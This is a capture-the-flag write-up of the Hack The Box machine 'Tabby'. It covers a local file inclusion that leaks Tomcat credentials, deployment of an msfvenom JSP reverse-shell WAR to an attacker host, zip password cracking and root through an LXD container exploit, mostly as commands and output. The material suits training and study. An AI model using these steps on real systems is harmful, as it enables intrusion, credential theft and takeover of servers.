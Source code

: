 ```yaml
---
layout: post
title: HTB Machine - Tabby
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/9b4c7b192eb00be8460364338e48f21f.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/9b4c7b192eb00be8460364338e48f21f.png
share-img: https://www.hackthebox.com/storage/avatars/9b4c7b192eb00be8460364338e48f21f.png
tags: [ HTB, Hack the Box,Tomcat,JSP,LXD,Web,Vulnerability Assessment,Common Applications,Authentication,Reconnaissance,Password Cracking,Privilege Abuse,Local File Inclusion,Misconfiguration]
---
```

scans:
```zsh
linux machine
sudo nmap -sS 10.10.10.194 --open --min-rate 5000 -n -Pn -oG ./nmap/allports
sudo nmap -sCV 10.10.10.194 -p22,80,8080 -oN ./nmap/targeted 
```
When browsing to the webpage we find a static website.

when browsing to http://megahosting.htb/news.php?file=statement the page doesnt load, then we will ad to /etc/hosts IP to resolve properly.
 
Finally when it loads http://megahosting.htb/news.php?file=statement we see some text. The url address seems juice, if we modify the statement word the it does not load. With this we can infer an LFI. Lets try a small proof of concept: 

http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd

The page display a file within the machine filesystem, LFI is possitive. We see only 2 users root and ash. Not much we can do since we cannot display the flag. 

When browsing to the site in the other port http://10.10.10.194:8080/ we get a it works sign mentioning tomcat. Since we know this is a Tomcat we could perhaps try to access the gui manager and to deploy a malicious .war file to gain access to the server. A search for 'tomcat manager default path' can provide what we need. It does not work on port 80 but when trying with port 8080 we get a request to enter credentials (that we dont have).

http://megahosting.htb:8080/manager/html
http://megahosting.htb:8080/host-manager/html

if we cancel the login prompt an error appears and it mentions the tomcat-user.xml. Perhaps we can try our LFI to display it. 

http://megahosting.htb/news.php?file=../../../../../../../../conf/tomcat-users.xml

No luck. Perhaps the file is in another location. We know is a tomcat9 that is installed in /usr/share/tomcat9. Lets try that route then wiht our LFI and the users.xml.

http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/conf/tomcat-users.xml

no luck again, perhaps again the file is not placed there for tomcat9. Lets search again but this time with the route we found in the main page 

google: usr/share/tomcat9 tomcat-users.xml

we come accross this page that places our xml file in another directory. Basically etc instead of conf. 

[Tomcat9 filelist](https://packages.ubuntu.com/focal/all/tomcat9/filelist)

http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

Now we can see the xml (after pressing ctrl+u to view the page source). There is a user and a pass. It is mention the roles the user has, like admin-gui and manager-script.
```zsh
tomcat:$3cureP4s5w0rd123!
```
we will use the credentials on our manager page. We are not granted further access cause we are restricted. Let's try and fuzz the website from that point.  

```zsh
ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.194:8080/manager/FUZZ -ic
images                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
html                    [Status: 401, Size: 2499, Words: 457, Lines: 64, Duration: 74ms]
status                  [Status: 401, Size: 2499, Words: 457, Lines: 64, Duration: 56ms]
text                    [Status: 401, Size: 2499, Words: 457, Lines: 64, Duration: 53ms]
```
the status page provides just further info for our recon. When checking the text file we get 'FAIL - Unknown command [/]' . It seems to be executing something so we might want to dig further into what this text file does. Google tomcat /manager/text

we come accross the official documentation that explains we can interact with the host manager.

[Tomcat documentation](https://tomcat.apache.org/tomcat-8.5-doc/host-manager-howto.html)

At this point I'm going to summarize. There are the manager and the host-manager pages. We want to access the host-manager to upload a war but we dont have access via GUI to do this. we found the manager and find that we have access to a text module that will allow us to interact with the host-manager. The documentation from the previous link states how to get the list of applications. 
```zsh
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```
we can create our own application and then upload it to execute. Basically what we could do in via tomcat GUI but now via command line. Search for a java payload in msfvenom that will establish a reverse shell, in this case in java. Once we have identify it create the war file with msfvenom. 
```zsh
msfvenom -l payloads | grep java
    java/jsp_shell_reverse_tcp   
    
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f war -o reverse.war
```
To deploy the war we will need to search for ways, a google search for 'tomcat deploy application curl' take us to a page that provides and example. Simply we will need to place our machine details.Note that the &update=true at the end of the command is optional.

[Stack Overflow post](https://stackoverflow.com/questions/4432684/tomcat-manager-remote-deploy-script)
```
curl -T "myapp.war" "http://manager:manager@localhost:8080/manager/text/deploy?path=/myapp&update=true"

curl -s -u 'tomcat:$3cureP4s5w0rd123!' -T /home/rickybana/Documents/Tabby/reverse.war 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse'
OK - Deployed application at context path [/reverse]
```
our application is installed now and we can verify if we list again the applications availables. 
```zsh
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
/reverse:running:0:reverse
```
set our nc listener and go to the webpage http://10.10.10.194:8080/reverse. Once in stabilize the tty and recon the server. We are not able to take flag because we need to escalate privileges to the user ash. Not much we can examine other than the webpage files. Let's head to var/www/html to check further. Inside the files folder we see the statement file that gave us a clue to the LFI present in the webpage. There is also a zip file but unzipping is not possible since we dont have a pass that it requires. We can try to bruteforce from our machine, to get the file we could run a webserver to download the file into our machine. 
```zsh
python3 -m http.server 8081
wget http://10.10.10.194:8081/16162020_backup.zip
```
now we have the file lets run it through zip2john and then attempt to crack it with john
```zsh
zip2john 16162020_backup.zip > hash                                                                                        

john -wordlist=/usr/share/wordlists/rockyou.txt hash 

admin@it         (16162020_backup.zip)
```
we can unzip the file now with the pass found. Nothing interesting in those files. We could try the password if we think ash reuses the password for his account. This grant us the first flag then.

Checking the privileges the user has we see that he is part of the group lxd, which means he can create a container. What we are trying to do is: since we can create a container with root privileges we can then create a mount point inside that container of our victim machine root filesytem (/) and from there do any changes as a root. If we do a 'searchsploit lxd' a script is shown so we just need to follow the instructions. First we need to download alpine and build it in our machine.
```zsh
searchsploit lxd

searchsploit -m 46978.sh

wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine

sudo bash build-alpine
```
after that we need to get both files into our victim machine, for that we set a python webserver and download both files in a folder we have permission to write in the victim machine. Give execution rights to the bash script. 
```zsh
wget http://10.10.14.4/alpine-v3.18-x86_64-20230707_0645.tar.gz
wget http://10.10.14.4/46978.sh
chmod +x 46978.sh 
```
execute the script. An error is showned that  lxc: command not found. If we examine the PATH in our victim machine, we see it is a very short one, perhaps it cannot find the binary because of it. Lets display our attack machine PATH which probably is larger an input that into our victim machine to run the  script once again. 
```zsh
export PATH=((NEW PATH FOLDERS))

./46978.sh -f alpine-v3.18-x86_64-20230707_0645.tar.gz
```
Now the script is able to run. From there just follow the instructions on the script to find where the root folder from our victim machine is mounted. 
```zsh
cat /mnt/root/root/root.txt
```

